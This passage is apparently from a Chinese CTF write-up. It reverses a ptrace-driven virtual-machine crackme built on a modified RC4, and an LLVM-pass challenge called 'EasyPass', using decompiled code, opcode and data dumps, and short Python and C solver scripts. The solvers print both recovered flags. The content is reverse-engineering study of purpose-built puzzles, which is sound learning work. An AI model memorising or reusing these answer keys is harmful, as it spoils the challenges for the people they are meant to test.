      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF3D )
    {
      v2 = 0LL;
      v3 = 0LL;
      v4 = 0LL;
      if ( v11 )
      {
        if ( v11 == 1 )
          v2 = dword_561C26A4C0AC;
      }
      else
      {
        v2 = &dword_561C26A4C0A8;
      }
      if ( v10 )
      {
        if ( v10 == 1 )
        {
          v3 = &unk_561C26A4C5BC;
        }
        else if ( v10 == 2 )
        {
          v3 = &unk_561C26A4C5EC;
        }
      }
      else
      {
        v3 = &unk_561C26A4C1BC;
      }
      if ( v9 )
      {
        if ( v9 == 1 )
        {
          v4 = dword_561C26A4C0AC;
        }
        else if ( v9 == 2 )
        {
          v4 = &dword_561C26A4C0B0;
        }
      }
      else
      {
        v4 = &dword_561C26A4C0A8;
      }
      *v2 += v3[*v4];
      dword_561C26A4C0A0 += 4;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF3E )
    {
      v5 = 0LL;
      if ( v11 )
      {
        if ( v11 == 1 )
          v5 = dword_561C26A4C0AC;
      }
      else
      {
        v5 = &dword_561C26A4C0A8;
      }
      *v5 = (unsigned int)*v5 % v10;
      dword_561C26A4C0A0 += 3;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF40 )
    {
      dword_561C26A4C0B4 = ptrace(PTRACE_PEEKDATA, (unsigned int)a1, &dword_561C26A4C0B4, 0LL);
      dword_561C26A4C0AC[++dword_561C26A4C0A4 + 4] = dword_561C26A4C0B4;
      ++dword_561C26A4C0A0;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF41 )
    {
      dword_561C26A4C0B4 = dword_561C26A4C0AC[dword_561C26A4C0A4-- + 4];
      ++dword_561C26A4C0A0;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF42 )
    {
      if ( v11 )
      {
        if ( v11 == 1 )
          dword_561C26A4C0B8 = dword_561C26A4C0A8 == dword_561C26A4C0B4;
      }
      else
      {
        dword_561C26A4C0B8 = dword_561C26A4C0B0 == v10;
      }
      dword_561C26A4C0A0 += 3;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF43 )
    {
      if ( dword_561C26A4C0B8 )
      {
        dword_561C26A4C0A0 = v11;
        ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)v11);
      }
      else
      {
        dword_561C26A4C0A0 += 2;
        ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
      }
    }
    if ( v12 == 0xF44 )
    {
      if ( dword_561C26A4C0B8 )
      {
        dword_561C26A4C0A0 += 2;
        ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
      }
      else
      {
        dword_561C26A4C0A0 = v11;
        ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)v11);
      }
    }
    if ( v12 == 0xF45 )
    {
      if ( v11 )
      {
        switch ( v11 )
        {
          case 1LL:
            *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0B0) = dword_561C26A4C0B0;
            break;
          case 2LL:
            dword_561C26A4C0A8 = *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0B0);
            break;
          case 3LL:
            dword_561C26A4C0A8 = *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0B0 + 267);
            break;
          case 4LL:
            dword_561C26A4C0A8 = *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0A8);
            break;
        }
      }
      else
      {
        dword_561C26A4C0A8 = dword_561C26A4C0B0;
      }
      dword_561C26A4C0A0 += 2;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF46 )
    {
      dword_561C26A4C0B4 ^= dword_561C26A4C0A8;
      ++dword_561C26A4C0A0;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF47 )
    {
      if ( v11 )
      {
        if ( v11 == 1 )
          v6 = dword_561C26A4C0AC;
      }
      else
      {
        v6 = &dword_561C26A4C0B0;
      }
      ++*v6;
      dword_561C26A4C0A0 += 2;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF48 )
    {
      *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0B0) = *((_DWORD *)&unk_561C26A4C1BC
                                                                          + (unsigned int)dword_561C26A4C0AC[0]);
      *((_DWORD *)&unk_561C26A4C1BC + (unsigned int)dword_561C26A4C0AC[0]) = *((_DWORD *)&unk_561C26A4C1BC
                                                                             + (unsigned int)dword_561C26A4C0B0);
      ++dword_561C26A4C0A0;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    if ( v12 == 0xF49 )
    {
      v7 = 0LL;
      if ( v11 )
      {
        if ( v11 == 1 )
          v7 = dword_561C26A4C0AC;
      }
      else
      {
        v7 = &dword_561C26A4C0B0;
      }
      *v7 = 0;
      dword_561C26A4C0A0 += 2;
      ptrace(PTRACE_POKEDATA, (unsigned int)a1, &dword_561C26A4C0A0, (unsigned int)dword_561C26A4C0A0);
    }
    ptrace(PTRACE_SYSCALL, (unsigned int)a1, 0LL, 0LL);
    waitpid(a1, &stat_loc, 0);
  }
  puts("try again");
  exit(1);
}
```
跟着调一会，会发现这是个VM逆向，我是一步一步跟着调的，发现是一个魔改的rc4，在判断和异或处下断点，每次更改得到的值使其和判断的值相等，然后就可以dump异或的值了
opcode是我偶然找到的（在主函数`dword_561C26A4C0AC`点进去，往下翻能看到minil2023和最后异或比较的值，再往下翻就能看到一个奇怪的数组，动调过一次之后很容易就能看出这是opcode
`opcode=[0x00000F49, 0x00000000, 0x00000F3F, 0x00000F40, 0x00000F47, 0x00000000, 0x00000F42, 0x00000000, 0x00000026, 0x00000F44, 0x00000002, 0x00000F49, 0x00000000, 0x00000F45, 0x00000001, 0x00000F47, 0x00000000, 0x00000F42, 0x00000000, 0x00000100, 0x00000F44, 0x0000000D, 0x00000F49, 0x00000000, 0x00000F49, 0x00000001, 0x00000F3D, 0x00000001, 0x00000000, 0x00000002, 0x00000F45, 0x00000000, 0x00000F3E, 0x00000000, 0x0000000C, 0x00000F3D, 0x00000001, 0x00000001, 0x00000000, 0x00000F3E, 0x00000001, 0x00000100, 0x00000F48, 0x00000F47, 0x00000000, 0x00000F42, 0x00000000, 0x00000100, 0x00000F44, 0x0000001A, 0x00000F49, 0x00000000, 0x00000F49, 0x00000001, 0x00000F47, 0x00000000, 0x00000F3D, 0x00000001, 0x00000000, 0x00000002, 0x00000F3E, 0x00000001, 0x00000100, 0x00000F48, 0x00000F45, 0x00000002, 0x00000F3D, 0x00000000, 0x00000000, 0x00000001, 0x00000F3E, 0x00000000, 0x00000100, 0x00000F45, 0x00000004, 0x00000F41, 0x00000F46, 0x00000F45, 0x00000003, 0x00000F42, 0x00000001, 0x00000000, 0x00000F44, 0x0000005A, 0x00000F42, 0x00000000, 0x00000026, 0x00000F44, 0x00000036, 0x0000270F, 0x000022B8]`
```
xor_data= [0xff,0xcf,0xaa,0xaa,0xf2,0xaa,0x83,0x8a,0xdd,0x7b,0x37,0xf2,0x69,0xaa,0xdd,0xed,0x83,0x7b,0x83,0xfa,0x70,0x83,0x7b,0xfa,0xdd,0x5e,0x97,0xf1,0x9a,0xed,0x7f,0xe4,0xe4,0x83,0xaa,0xdd,0x70,0x93]
enc_data=[0x00000093, 0x000000A3, 0x000000CB, 0x000000C9, 0x000000D6, 0x000000D3, 0x000000F0, 0x000000D5, 0x000000B1, 0x0000001A, 0x00000054, 0x0000009B, 0x00000050, 0x000000CB, 0x000000B0, 0x000000B2, 0x000000EB, 0x0000000F, 0x000000B2, 0x0000008D, 0x0000002F, 0x000000E6, 0x00000015, 0x000000CB, 0x000000B5, 0x0000003D, 0x000000D7, 0x0000009C, 0x000000C5, 0x00000081, 0x0000003F, 0x00000091, 0x00000090, 0x000000F1, 0x0000009B, 0x000000AB, 0x0000002F, 0x000000F2]
for i in range(len(xor_data)):
    print(chr(xor_data[i]^enc_data[i]),end="")
re_flag="llac$ys_laci9am_ht1w_en1hc@m_l@utr1v_a"
print()
for i in range(len(re_flag)):
    print(re_flag[37-i],end="")
#a_v1rtu@l_m@ch1ne_w1th_ma9ical_sy$call
```
### EasyPass | FUX1AOYUN
llvm？真不熟
有个.so文件，先用IDA打开看看，试着找找加密逻辑，发现有很多没用的函数，再往下翻翻，就翻到了
```
for ( i = 0; i < 15; ++i )
  {
    v11[0] = llvm::Value::getName(v14);
    v11[1] = v2;
    llvm::StringRef::str[abi:cxx11](v12, v11);
    v3 = std::string::c_str(v12);
    unk_51B0[i + 1] = *(_BYTE *)(v3 + i);
    std::string::~string(v12);
  }
  v10[0] = 0x5D39386D717E704BLL;
  v10[1] = 0x6B767F396D3E7776LL;
  v10[2] = 0x70777074396D7C7ELL;
  v10[3] = 0x6764627F6D7A55LL;
  strcpy(v9, "HnH59iuc9mk`9x~xpwg");
  sub_EB60();
  if ( ++l == 26 )
  {
    if ( (sub_EC20((__int64)a1) & 1) != 0 )
    {
      for ( j = 0; j < 31; ++j )
      {
        *((_BYTE *)v10 + j) ^= 0x19u;
        a1 = (llvm *)llvm::outs(a1);
        llvm::raw_ostream::operator<<(a1, *((_BYTE *)v10 + j));
      }
      v4 = (llvm::raw_ostream *)llvm::outs(a1);
      llvm::raw_ostream::operator<<(v4, "\n");
    }
    else
    {
      for ( k = 0; k < 19; ++k )
      {
        v9[k] ^= 0x19u;
        a1 = (llvm *)llvm::outs(a1);
        llvm::raw_ostream::operator<<(a1, v9[k]);
      }
      v5 = (llvm::raw_ostream *)llvm::outs(a1);
      llvm::raw_ostream::operator<<(v5, "\n");
    }
  }
  return 0LL;
}
```
上面有很多没用的空函数，就省略了
sub_EB60是加密函数，sub_EC20是判断flag的函数
#### sub_EC20:
```
__int64 __fastcall sub_EC20(__int64 a1)
{
  int i; // [rsp+0h] [rbp-34h]
  __int64 v3[3]; // [rsp+4h] [rbp-30h]
  int v4; // [rsp+1Ch] [rbp-18h]
  __int16 v5; // [rsp+20h] [rbp-14h]
  __int64 v6; // [rsp+24h] [rbp-10h]
  char v7; // [rsp+33h] [rbp-1h]

  v6 = a1;
  v3[0] = 0x23395D2C0F650464LL;
  v3[1] = 0x9A938F1D05160023LL;
  v3[2] = 0xCBAFA092A993B3A0LL;
  v4 = 51852;
  v5 = 0;
  for ( i = 0; i < 26; ++i )
  {
    if ( unk_51B0[i + 97] != *((unsigned __int8 *)v3 + i) )
    {
      v7 = 0;
      return v7 & 1;
    }
  }
  v7 = 1;
  return v7 & 1;
}
```
#### sub_EB60:
```
unsigned __int8 *sub_EB60()
{
  unsigned __int8 *result; // rax
  int i; // [rsp+0h] [rbp-1Ch]
  unsigned __int8 v2; // [rsp+7h] [rbp-15h]
  unsigned __int8 v3; // [rsp+9h] [rbp-13h]
  unsigned __int8 v4; // [rsp+Ah] [rbp-12h]

  result = unk_51B0;
  unk_51B0[0] = 1;
  for ( i = 0; i < 5; ++i )
  {
    v4 = unk_51B0[unk_51B0[0] + 1];
    v3 = unk_51B0[unk_51B0[0]];
    v2 = unk_51B0[unk_51B0[0] + 2];
    unk_51B0[0] += 3;
    unk_51B0[v2] = ~(unk_51B0[v4] & unk_51B0[v3]);
    result = (unsigned __int8 *)(unsigned int)(i + 1);
  }
  return result;
}
```
经过分析，unk_51B0的赋值来源于
```
for ( i = 0; i < 15; ++i )
  {
    v11[0] = llvm::Value::getName(v14);
    v11[1] = v2;
    llvm::StringRef::str[abi:cxx11](v12, v11);
    v3 = std::string::c_str(v12);
    unk_51B0[i + 1] = *(_BYTE *)(v3 + i);
    std::string::~string(v12);
  }
```
可以看出，这里读了15个字符，从哪里读？

由llvm::value::getName()可知
pass遍历IR会从IR中取值,IR的一种格式就是.bc
那么key应该在main.bc中读取
打开看看
```
73 74 72 2E+aSStrStr1Str2St db 's.str.str.1.str.2.str.3.str.4.str.5.str.6.str.7.str.8.str.9.str.10.str.11.str.12.str.13.str.14.'
seg000:0000000000001DEC 31 2E 73 74 72 2E 32 2E 73 74+db 'str.15.str.16.str.17.str.18.str.19.str.20.str.21.str.22.str.23.str.24.str.25.str.26aaCCzCzzMMaM'
seg000:0000000000001DEC 72 2E 33 2E 73 74 72 2E 34 2E+db 'CMastrcpybbMMyMyyZZbZMZbccCCxCxxJJcJCJcddQQwQwwMMdMQMdeeYYvYvvKKeKYKeffHHuHuuCCfCHCfggDDtDttKKg'
seg000:0000000000001DEC 73 74 72 2E 35 2E 73 74 72 2E+db 'KDKghhDDsDssOOhODOhiiCCrCrrIIiICIijjOOqOqqDDjDODjkkSSpSppEEkESEkllXXoXooTTlTXTlmmLLnLnnVVmVLVmn'
seg000:0000000000001DEC 36 2E 73 74 72 2E 37 2E 73 74+db 'nII_I__HHnHIHnooOO_O__CCoCOCoppFF_F__NNpNFNpqqDD_D__BBqBDBqrrTT_T__BBrBTBrssJJ_J__CCsCJCsttGG_G'
seg000:0000000000001DEC 72 2E 38 2E 73 74 72 2E 39 2E+db '__XXtXGXtuuDD_D__OOuODOuvvUU_U__JJvJUJvwwOO_O__SSwSOSwxxRR_R__SSxSRSxyyEE_E__KKyKEKyzzJJ_J__TTz'
seg000:0000000000001DEC 73 74 72 2E 31 30 2E 73 74 72+db 'TJTzmainprintf10.0.0x86_64-pc-linux-gnumain.c.L.str.L.str.1.L.str.2.L.str.3.L.str.4.L.str.5.L.s'
seg000:0000000000001DEC 2E 31 31 2E 73 74 72 2E 31 32+db 'tr.6.L.str.7.L.str.8.L.str.9.L.str.10.L.str.11.L.str.12.L.str.13.L.str.14.L.str.15.L.str.16.L.s'
seg000:0000000000001DEC 2E 73 74 72 2E 31 33 2E 73 74+db 'tr.17.L.str.18.L.str.19.L.str.20.L.str.21.L.str.22.L.str.23.L.str.24.L.str.25.L.str.26',0
```
可以看到有这么一堆字符串，很诡异
怎么看出来密钥的，我只能说是猜的，flag的长度是26,每次读15个字符，刚好读26次
然后分析加密函数，发现是前半截异或后半截，后半截异或0xff
写个脚本
```
#include<stdio.h>
#include<string.h>
int main()
{
   char key[500]="aaCCzCzzMMaMCMabbMMyMyyZZbZMZbccCCxCxxJJcJCJcddQQwQwwMMdMQMdeeYYvYvvKKeKYKeffHHuHuuCCfCHCfggDDtDttKKgKDKghhDDsDssOOhODOhiiCCrCrrIIiICIijjOOqOqqDDjDODjkkSSpSppEEkESEkllXXoXooTTlTXTlmmLLnLnnVVmVLVmnnII_I__HHnHIHnooOO_O__CCoCOCoppFF_F__NNpNFNpqqDD_D__BBqBDBqrrTT_T__BBrBTBrssJJ_J__CCsCJCsttGG_G__XXtXGXtuuDD_D__OOuODOuvvUU_U__JJvJUJvwwOO_O__SSwSOSwxxRR_R__SSxSRSxyyEE_E__KKyKEKyzzJJ_J__TTzTJTz";
   int b[26]={0x64,0x04,0x65,0x0f,0x2c,0x5d,0x39,0x23,0x23,0x00,0x16,0x05,0x1d,0x70,0x6c,0x65,0x5f,0x4c,0x6c,0x56,0x6d,0x5f,0x50,0x34,0x73,0x35};
for(int i=0;i<13;i++){
      b[i]=b[i]^b[25-i];
    }
for(int i=0;i<26;i++)
{
  printf("%c",b[i]);
}
    return 0;
}
//QwQ_s0oOo_simple_LlVm_P4s5
```

